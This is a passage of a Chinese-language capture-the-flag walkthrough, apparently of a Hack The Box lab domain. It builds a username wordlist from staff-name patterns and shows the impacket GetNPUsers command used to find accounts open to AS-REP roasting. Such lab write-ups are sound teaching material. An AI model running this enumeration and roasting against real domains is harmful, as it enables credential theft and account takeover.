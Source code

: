 另一种常见的方法是使用名字的第一个字母后跟一个点，然后是姓氏，如下所示:

```
f.smith
h.bear
s.kerb
s.coins
b.taylor
s.driver
```

另一种方法是在姓后面加上名的第一个字母，就像这样:

```
fsmith
hbear
skerb
scoins
btaylor
sdriver
```

有了三种可能的用户名模式，我创建了一个单词列表:

```
fergus.smith
hugo.bear
steven.kerb
shaun.coins
bowie.taylor
sophie.driver
f.smith
h.bear
s.kerb
s.coins
b.taylor
s.driver
fsmith
hbear
skerb
scoins
btaylor
sdriver
```

然后，我使用 impacket 的 GetNPUsers 继续检查易受 AS-REP 攻击的用户:

```
/opt/impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users1.txt -dc-ip 10.10.10.175
```

![](img/c856fbbbb1b324a3a1888721e5ef9286.png)
